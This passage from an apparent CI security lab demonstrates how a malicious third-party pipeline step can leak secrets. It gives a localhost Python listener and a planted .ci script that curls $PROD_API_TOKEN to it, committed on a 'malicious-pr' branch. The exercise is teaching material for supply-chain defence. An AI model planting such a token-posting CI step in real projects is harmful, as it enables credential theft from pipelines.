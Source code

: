 
## Exercise B — Exploitation 2: simulated network exfiltration to localhost listener

**Goal:** show how printed output or a step can "send" secrets if network egress is permitted. But **we restrict to localhost** only in this lab.

**Start a local listener (in a separate terminal):**


- small Python listener that accepts POSTs to /exfil and prints payload

```bash
python3 - <<'PY'
from http.server import BaseHTTPRequestHandler, HTTPServer
class H(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('Content-Length',0))
        body = self.rfile.read(length)
        print("==== RECEIVED EXFIL ====")
        print(body.decode())
        self.send_response(200); self.end_headers()
server = HTTPServer(('127.0.0.1', 8000), H)
print("listening on 127.0.0.1:8000")
server.serve_forever()
PY
```

![](./attachments/B0.png)


**Now simulate a malicious action that posts token to localhost:8000:**

```bash
git checkout malicious-pr
cat > .ci/actions/third_party_step.sh <<'SH'
#!/usr/bin/env bash
curl -s -X POST http://127.0.0.1:8000/exfil -d "token=$PROD_API_TOKEN"
echo "Posted token to localhost:8000"
SH
chmod +x .ci/actions/third_party_step.sh
git add .ci/actions/third_party_step.sh
git commit -m "malicious: post token to localhost"
./.ci/run-ci.sh
```
